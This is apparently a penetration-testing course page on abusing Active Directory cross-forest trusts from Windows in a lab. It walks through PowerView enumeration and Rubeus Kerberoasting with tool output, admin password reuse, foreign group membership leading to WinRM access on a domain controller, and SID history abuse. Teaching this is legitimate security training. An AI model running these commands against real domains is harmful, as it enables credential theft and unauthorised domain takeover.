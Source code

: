 # Attacking Domain Trusts - Cross-Forest Trust Abuse - from Windows

## Cross-Forest Kerberoasting

Kerberos attacks such as Kerberoasting and ASREPRoasting can be performed across trusts, depending on the trust direction. In a situation where you are positioned in a domain with either an inbound or bidirectional domain/forest trust, you can likely perform various attacks to gain a foothold. Sometimes you cannot escalate privileges in your current domain, but instead can obtain a Kerberos ticket and crack a hash for an administrative user in another domain that has Domain/Enterprise Admin privileges in both domains.

### **Enumerating Accounts for Associated SPNs Using Get-DomainUser**

We can utilize PowerView to enumerate accounts in a target domain that have SPNs associated with them.

```powershell
PS C:\htb> Get-DomainUser -SPN -Domain FREIGHTLOGISTICS.LOCAL | select SamAccountName

samaccountname
--------------
krbtgt
mssqlsvc
```

We see that there is one account with an SPN in the target domain. A quick check shows that this account is a member of the Domain Admins group in the target domain, so if we can Kerberoast it and crack the hash offline, we'd have full admin rights to the target domain.

### **Enumerating the mssqlsvc Account**

```powershell
PS C:\htb> Get-DomainUser -Domain FREIGHTLOGISTICS.LOCAL -Identity mssqlsvc |select samaccountname,memberof

samaccountname memberof
-------------- --------
mssqlsvc       CN=Domain Admins,CN=Users,DC=FREIGHTLOGISTICS,DC=LOCAL
```

### **Performing a Kerberoasting Attacking with Rubeus Using /domain Flag**

Let's perform a Kerberoasting attack across the trust using `Rubeus`. We run the tool as we did in the Kerberoasting section, but we include the `/domain:` flag and specify the target domain.

```powershell
PS C:\htb> .\Rubeus.exe kerberoast /domain:FREIGHTLOGISTICS.LOCAL /user:mssqlsvc /nowrap

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.2

[*] Action: Kerberoasting

[*] NOTICE: AES hashes will be returned for AES-enabled accounts.
[*]         Use /ticket:X or /tgtdeleg to force RC4_HMAC for these accounts.

[*] Target User            : mssqlsvc
[*] Target Domain          : FREIGHTLOGISTICS.LOCAL
[*] Searching path 'LDAP://ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL/DC=FREIGHTLOGISTICS,DC=LOCAL' for '(&(samAccountType=805306368)(servicePrincipalName=*)(samAccountName=mssqlsvc)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))'

[*] Total kerberoastable users : 1

[*] SamAccountName         : mssqlsvc
[*] DistinguishedName      : CN=mssqlsvc,CN=Users,DC=FREIGHTLOGISTICS,DC=LOCAL
[*] ServicePrincipalName   : MSSQLsvc/sql01.freightlogstics:1433
[*] PwdLastSet             : 3/24/2022 12:47:52 PM
[*] Supported ETypes       : RC4_HMAC_DEFAULT
[*] Hash                   : $krb5tgs$23$*mssqlsvc$FREIGHTLOGISTICS.LOCAL$MSSQLsvc/sql01.freightlogstics:1433@FREIGHTLOGISTICS.LOCAL*$<SNIP>
```

We could then run the hash through Hashcat. If it cracks, we've now quickly expanded our access to fully control two domains by leveraging a pretty standard attack and abusing the authentication direction and setup of the bidirectional forest trust.

***

## Admin Password Re-Use & Group Membership

From time to time, we'll run into a situation where there is a bidirectional forest trust managed by admins from the same company. If we can take over Domain A and obtain cleartext passwords or NT hashes for either the built-in Administrator account (or an account that is part of the Enterprise Admins or Domain Admins group in Domain A), and Domain B has a highly privileged account with the same name, then it is worth checking for password reuse across the two forests. I occasionally ran into issues where, for example, Domain A would have a user named `adm_bob.smith` in the Domain Admins group, and Domain B had a user named `bsmith_admin`. Sometimes, the user would be using the same password in the two domains, and owning Domain A instantly gave me full admin rights to Domain B.

We may also see users or admins from Domain A as members of a group in Domain B. Only `Domain Local Groups` allow security principals from outside its forest. We may see a Domain Admin or Enterprise Admin from Domain A as a member of the built-in Administrators group in Domain B in a bidirectional forest trust relationship. If we can take over this admin user in Domain A, we would gain full administrative access to Domain B based on group membership.

### **Using Get-DomainForeignGroupMember**

We can use the PowerView function [Get-DomainForeignGroupMember](https://powersploit.readthedocs.io/en/latest/Recon/Get-DomainForeignGroupMember) to enumerate groups with users that do not belong to the domain, also known as `foreign group membership`. Let's try this against the `FREIGHTLOGISTICS.LOCAL` domain with which we have an external bidirectional forest trust.

```powershell
PS C:\htb> Get-DomainForeignGroupMember -Domain FREIGHTLOGISTICS.LOCAL

GroupDomain             : FREIGHTLOGISTICS.LOCAL
GroupName               : Administrators
GroupDistinguishedName  : CN=Administrators,CN=Builtin,DC=FREIGHTLOGISTICS,DC=LOCAL
MemberDomain            : FREIGHTLOGISTICS.LOCAL
MemberName              : S-1-5-21-3842939050-3880317879-2865463114-500
MemberDistinguishedName : CN=S-1-5-21-3842939050-3880317879-2865463114-500,CN=ForeignSecurityPrincipals,DC=FREIGHTLOGIS
                          TICS,DC=LOCAL

PS C:\htb> Convert-SidToName S-1-5-21-3842939050-3880317879-2865463114-500

INLANEFREIGHT\administrator
```

The above command output shows that the built-in Administrators group in `FREIGHTLOGISTICS.LOCAL` has the built-in Administrator account for the `INLANEFREIGHT.LOCAL` domain as a member. We can verify this access using the `Enter-PSSession` cmdlet to connect over WinRM.

### **Accessing DC03 Using Enter-PSSession**

```powershell
PS C:\htb> Enter-PSSession -ComputerName ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL -Credential INLANEFREIGHT\administrator

[ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL]: PS C:\Users\administrator.INLANEFREIGHT\Documents> whoami
inlanefreight\administrator

[ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL]: PS C:\Users\administrator.INLANEFREIGHT\Documents> ipconfig /all

Windows IP Configuration

   Host Name . . . . . . . . . . . . : ACADEMY-EA-DC03
   Primary Dns Suffix  . . . . . . . : FREIGHTLOGISTICS.LOCAL
   Node Type . . . . . . . . . . . . : Hybrid
   IP Routing Enabled. . . . . . . . : No
   WINS Proxy Enabled. . . . . . . . : No
   DNS Suffix Search List. . . . . . : FREIGHTLOGISTICS.LOCAL
```

From the command output above, we can see that we successfully authenticated to the Domain Controller in the `FREIGHTLOGISTICS.LOCAL` domain using the Administrator account from the `INLANEFREIGHT.LOCAL` domain across the bidirectional forest trust. This can be a quick win after taking control of a domain and is always worth checking for if a bidirectional forest trust situation is present during an assessment and the second forest is in-scope.

***

## SID History Abuse - Cross Forest

SID History can also be abused across a forest trust. If a user is migrated from one forest to another and SID Filtering is not enabled, it becomes possible to add a SID from the other forest, and this SID will be added to the user's token when authenticating across the trust. If the SID of an account with administrative privileges in Forest A is added to the SID history attribute of an account in Forest B, assuming they can authenticate across the forest, then this account will have administrative privileges when accessing resources in the partner forest. In the below diagram, we can see an example of the `jjones` user being migrated from the `INLANEFREIGHT.LOCAL` domain to the `CORP.LOCAL` domain in a different forest. If SID filtering is not enabled when this migration is made and the user has administrative privileges (or any type of interesting rights such as ACE entries, access to shares, etc.) in the `INLANEFREIGHT.LOCAL` domain, then they will retain their administrative rights/access in `INLANEFREIGHT.LOCAL` while being a member of the new domain, `CORP.LOCAL` in the second forest.

<figure><img src="../../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

This attack will be covered in-depth in a later module focusing more heavily on attacking AD trusts.

***

## Onwards

Next, we'll walk through some examples of attacking across a forest trust from a Linux attack host.
